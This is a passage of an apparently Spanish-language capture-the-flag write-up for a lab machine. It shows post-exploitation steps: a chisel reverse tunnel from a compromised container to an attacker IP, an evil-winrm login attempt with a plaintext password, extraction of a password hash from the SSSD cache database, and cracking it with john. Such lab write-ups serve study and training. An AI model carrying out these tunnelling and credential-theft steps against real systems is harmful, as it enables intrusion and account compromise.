 ```null
chisel server -p 1234 --reverse
```

En el contenedor como cliente

```null
root@icinga:/tmp# ./chisel client 10.10.16.15:1234 R:5985:172.16.22.1:5985 &>/dev/null & disown
```

Me conecto con ```evil-winrm``` pero no se reutilizan las credenciales

```null
evil-winrm -i 127.0.0.1 -u 'matthew' -p 'IcingaWebPassword2023'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1
```

En el directorio ```/var/lib/sss/db``` se encuentran archivos correspondientes a bases de datos

```null
root@icinga:/var/lib/sss/db# ls
cache_cerberus.local.ldb  ccache_CERBERUS.LOCAL  config.ldb  sssd.ldb  timestamps_cerberus.local.ldb
```

En el caché se expone un hash

```null
root@icinga:/var/lib/sss/db# strings cache_cerberus.local.ldb -n 50 | tail -n 1
$6$6LP9gyiXJCovapcy$0qmZTTjp9f2A0e7n4xk0L6ZoeKhhaCNm0VGJnX/Mu608QkliMpIy1FwKZlyUJAZU3FZ3.GQ.4N6bb9pxE3t3T0
```

Lo crackeo con ```john```

```null
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
147258369        (?)     
1g 0:00:00:00 DONE (2023-06-01 18:57) 12.50g/s 6400p/s 6400c/s 6400C/s 123456..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

